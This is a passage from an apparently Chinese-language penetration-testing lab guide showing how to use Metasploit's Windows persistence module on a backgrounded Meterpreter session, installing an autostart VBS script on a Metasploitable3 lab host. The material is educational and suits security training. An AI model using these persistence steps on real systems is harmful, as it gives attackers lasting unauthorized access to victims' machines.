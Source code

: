     图 3.21 – 背景 Meterpreter 会话

1.  将 Meterpreter 会话转入后台后，我们可以通过运行以下命令加载持久化模块：

    `use exploit/windows/local/persistence`

1.  现在我们需要配置模块选项。在这种情况下，我们需要通过运行以下命令来更改`SESSION`选项：

    `set SESSION 1`

    此外，我们还需要更改有效载荷选项，特别是`LPORT`选项，可以通过运行以下命令来完成：

    `set LPORT 4443`

    *图 3.22* 概述了持久化模块的各种选项。突出显示的选项是需要更改的值：

    ![图 3.22 – 持久化模块选项    ](img/B17389_03_022.jpg)

    图 3.22 – 持久化模块选项

1.  设置模块选项后，我们可以使用以下命令运行模块：

    `run`

1.  如果成功，持久化模块应安装**VBS 脚本**并将其设置为自启动注册表项，如*图 3.23*所示：

![图 3.23 – 持久化模块成功](img/B17389_03_023.jpg)

图 3.23 – 持久化模块成功

我们已成功利用漏洞并在 Metasploitable3 主机上设置了持久化。接下来，我们将学习如何利用`Metasploitable2`，也就是我们的 Linux 主机。

## 利用 Metasploitable2

